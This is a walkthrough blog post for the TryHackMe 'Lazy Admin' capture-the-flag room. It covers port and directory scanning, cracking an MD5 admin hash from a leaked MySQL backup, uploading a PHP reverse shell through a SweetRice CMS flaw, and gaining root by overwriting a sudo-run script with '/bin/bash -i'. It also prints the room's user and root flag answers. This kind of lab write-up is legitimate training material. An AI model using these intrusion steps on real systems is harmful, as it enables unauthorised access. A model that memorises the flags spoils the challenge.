 ```yaml
---
layout: post
title: Lazy Admin
date: 2023-03-07 12:00 +0700
categories: [THM, easy]
---
```


### Introduction

[Lazy Admin] is an easy CTF on TryHackMe that showcases scanning and enumeration, research, exploitation, and sudo privilege escalation.

![lazyadmin](https://tryhackme-images.s3.amazonaws.com/room-icons/efbb70493ba66dfbac4302c02ad8facf.jpeg)



---

Let's start scanning the machine with nmap.

```sh
nmap -sSV -p- --open --min-rate 5000 <IP> -oN <outputfile.txt>
```

![Scan](/images/THM/lazyadmin/Captura.PNG)

If we go to the web we can see there is nothing interesting only the Apache2 service.

![web](/images/THM/lazyadmin/Captura2.PNG)

Time to do a directory scan.

```sh
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -q -t 40 -x html,txt,php
```

![web scan](/images/THM/lazyadmin/Captura3.PNG)

We found a directory called **content** that contains a **SweetRice CMS**.

![cms](/images/THM/lazyadmin/Captura4.PNG)

If we go to the **as** directory we can see the admin login.

![cms-login](/images/THM/lazyadmin/Captura5.PNG)

Searching a bit inner the directories in the folder **inc** we can found a **mysql_backup**.

![mysql](/images/THM/lazyadmin/mysql.PNG)

Inner It we can get the admin credentials, but the password is encrypted in md5.

![credentials](/images/THM/lazyadmin/mysql2.PNG)

This time I used [crackstation] for crack it instead other system tools.

![crack](/images/THM/lazyadmin/mysql3.PNG)

Once is cracked we can login.

Is time to get a shell!

![admin page](/images/THM/lazyadmin/Captura6.PNG)

Researching a little we can find an [exploit] in exploit-db.

In the exploit, explains that we can take advantage of ADS section.

![exploit](/images/THM/lazyadmin/Captura7.PNG)

We will use pentestmonkey php reverse shell, pointing to our IP and the port we configure our listener.

![ads admin](/images/THM/lazyadmin/Captura8.PNG)

```sh
nc -lvnp 4444
```

![listener](/images/THM/lazyadmin/Captura9.PNG)

If we go to the web-shell we've created and is well configured, we will receive the connection.

![conn](/images/THM/lazyadmin/Captura10.PNG)

Time to get an interactive shell!

```sh
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![interactive shell](/images/THM/lazyadmin/Captura11.PNG)

Researching a little we can find the user flag in **/home/itguy**.

```sh
cat user.txt
```

![user flag](/images/THM/lazyadmin/Captura12.PNG)

- What is the user flag?
>Answer: THM{63e5bce9271952aad1113b6f1ac28a07}

Time to elevate our privileges.

If we list our allowed sudo commands for our user, we can see, that we can execute a perl script like root.

```sh
sudo -l
```

![sudo -l](/images/THM/lazyadmin/Captura13.PNG)

Let's see what contains **backup.pl**.

```sh
cat backup.pl
```

We can see that script execute a bash script called **copy.sh**. If we see the permissions of it, we can modify it, so let's take advantage of this and modify the file to get our root prompt.

![cat backup](/images/THM/lazyadmin/Captura14.PNG)

We can put a the bash command and the -i option to get our root interactive shell.

```sh
echo "/bin/bash -i" > /etc/copy.sh
cat /etc/copy.sh
```

![copy.sh modify](/images/THM/lazyadmin/Captura15.PNG)

Time to execute it! And if all we did is correctly we got a root shell.


```sh
sudo /usr/bin/perl /home/itguy/backup.pl
id
```

![sudo vuln](/images/THM/lazyadmin/Captura16.PNG)

Now we can go to the root directory, see the root flag and we've complete this machine.

```sh
cd /root
ls
cat root.txt
```

![root flag](/images/THM/lazyadmin/Captura17.PNG)

- What is the root flag?
>Answer: THM{6637f41d0177b6f37cb20d775124699f}



 [lazy admin]:https://tryhackme.com/room/lazyadmin
 [crackstation]:https://crackstation.net/
 [exploit]:https://www.exploit-db.com/exploits/40700
